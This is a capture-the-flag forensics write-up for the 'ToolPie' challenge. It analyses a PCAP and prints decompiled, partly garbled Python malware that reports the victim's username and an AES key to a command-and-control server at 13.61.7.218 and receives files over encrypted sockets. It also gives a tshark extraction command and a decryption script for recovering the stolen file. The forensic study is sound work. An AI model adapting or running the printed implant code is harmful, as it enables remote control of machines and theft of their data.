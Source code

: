 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: "forensics, twh, pcap, wireshark, tshark, python, obfuscation, aes"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## ToolPie
> Solved by thewhiteh4t


- We were given a PCAP in this challenge


- What is the IP address responsible for compromising the website?
    - based on POST requests in the PCAP : `194.59.6.66`
- What is the name of the endpoint exploited by the attacker?
    - based on POST requests : `/execute`
- What is the name of the obfuscation tool used by the attacker?
    - simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
    # replaced exec() with print()
    > python chal.py
    <code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

- What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    - To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    - However none of the tools worked due to python version mismatch, so I found `pylingual`
    - in the code we can see the ip and port : `13.61.7.218:55155`

```
    # Decompiled with PyLingual (https://pylingual.io)
    # Internal filename: Py-Fuscate
    # Bytecode version: 3.13.0rc3 (3571)
    # Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
    from os import popen
    pass
    pass
    import socket
    import threading
    import os
    import time
    import random
    import string
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import pad, unpad
    user = os.popen('whoami').read()
    BUFFER_SIZE = 4096
    SEPARATOR = '<SEPARATOR>'
    CONN = True
    def enc_mes(mes, key):
        try:
            cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
            cypher_block = 16
            mes = mes.encode() if type(mes)!= bytes else mes
            return cypher.encrypt(pad(mes, cypher_block))
        except:
            return None
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    def dec_mes(mes, key):
        if mes == b'':
            return mes
    def receive_file():
        try:
            client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client2.connect(('13.61.7.218', 54163))
            k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
            client2.send(k.encode())
            pass
            enc_received = client2.recv(BUFFER_SIZE)
            received = dec_mes(enc_received, k).decode()
            filename, filesize = received.split(SEPARATOR)
            ok_enc = enc_mes('ok2', k)
            client2.send(ok_enc)
            total_bytes = 0
            msg = b''
            if total_bytes < int(filesize):
                bytes_read = client2.recv(BUFFER_SIZE)
                msg += bytes_read
                total_bytes += len(bytes_read)
            decr_file = dec_mes(msg, k)
            with open(filename, 'wb') as f:
                f.write(decr_file)
                    pass
                    client2.close()
        except:
            pass  # postinserted
        client2.send('Error transporting file'.encode())
    def receive(client, k):
        pass
        try:
            pass  # postinserted
        s += 1
        msg = client.recv(1024)
        raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
        except:
            pass  # postinserted
        pass
        try:
            pass  # postinserted
        client.close()
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        time.sleep(60)
        except:
            time.sleep(60)
    if __name__ == '__main__':
        pass
        try:
            pass  # postinserted
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        break
        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except:
        pass  # postinserted
    time.sleep(50)
```

- What encryption key did the attacker use to secure the data?
    - in the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    - we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


- What is the MD5 hash of the file exfiltrated by the attacker?
    - since we have the key, we can write our own decryption script
    - first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    - now we can write a script to parse data chunks and decrypt the stolen files

```
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
    
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    
    key = '5UUfizsRsP7oOCAq'
    
    filename = None
    size = 0
    container = b''
    filling = False
    got_size = False
    
    with open('datafile.txt') as encfile:
        hex_lines = encfile.readlines()
        for line in hex_lines:
            got_name = False
            if filename:
                got_name = True
    
            msg = bytes.fromhex(line)
            if b'SEPARATOR' in msg:
                continue
    
            if not filling:
                decr_file = dec_file_mes(msg, key)
                if b'C:' in decr_file:
                    filename = decr_file.decode().split('\\')[-1]
                    print('[+] Filename : ', filename)
                if got_name and not got_size:
                    if int(decr_file.decode()):
                        size = int(decr_file.decode())
                        print('[+] File Size : ', size)
                        got_size = True
                if size and b'ok' in decr_file:  # handle last ok msg after size
                    filling = True
            else:
                if len(container) != size:
                    container += msg
    
        decr_file = dec_file_mes(container, key)
        print(f'[+] Writing : {filename}')
        with open(filename, 'wb') as outfile:
            outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`


